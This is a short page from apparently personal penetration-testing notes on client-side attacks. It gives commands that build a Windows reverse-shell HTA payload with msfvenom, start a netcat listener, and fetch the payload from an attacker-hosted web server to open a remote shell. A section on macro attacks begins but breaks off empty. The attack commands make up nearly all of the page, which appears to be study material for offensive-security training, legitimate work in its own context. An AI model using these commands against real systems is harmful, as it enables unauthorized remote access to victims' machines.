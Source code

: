 ```yaml
---
title: Client Side Attacks
layout: default
nav_order: 5
parent: Exploitation

---
```


# Client Side Attacks
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### <ins>HTA Applications</ins>
1. Generating HTA payload via `msfvenom` for **Windows**:
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```
2. Create netcat listener
```bash
sudo nc -nvlp 4444
```

3. On the **Windows machine**, browse to the IP of the Kali machine hosting the `evil.hta` file
```powershell
Invoke-WebRequest -URI http://$KALI_IP:80/evil.hta
```

4. Observe reverse shell

### <ins>Microsoft Macro Attack</ins>
1. 


